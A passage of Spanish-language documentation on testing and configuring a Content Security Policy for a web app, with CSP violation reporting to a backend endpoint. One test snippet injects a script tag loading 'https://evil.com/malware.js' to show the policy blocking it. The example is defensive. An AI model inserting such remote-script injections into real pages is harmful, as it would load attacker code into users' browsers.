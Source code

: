 **Resultado en consola:**
```
❌ Refused to execute inline script because it violates the following
   Content Security Policy directive: "script-src 'self'"
```

---

**Prueba 2: Script Externo (debe fallar)**

```javascript
const script = document.createElement('script');
script.src = 'https://evil.com/malware.js';
document.body.appendChild(script);
```

**Resultado en consola:**
```
❌ Refused to load the script 'https://evil.com/malware.js' because it
   violates the following Content Security Policy directive: "script-src 'self'"
```

---

### 6.3. CSP Violation Reports (Opcional - Futuro)

Puedes configurar un endpoint para recibir reportes de violaciones:

```typescript
contentSecurityPolicy: {
  directives: {
    // ... otras directivas
    reportUri: ['/api/v1/csp-report'],
  },
},
```

**Endpoint para recibir reportes:**
```typescript
@Post('csp-report')
@Public()
async cspReport(@Body() report: any) {
  this.logger.warn('CSP Violation:', JSON.stringify(report));
  // Guardar en DB para análisis
  await this.auditLogService.create({
    action: 'CSP_VIOLATION',
    details: report,
  });
}
```

---

## 7. Compatibilidad con Frontend

### React + Vite (Tu caso)
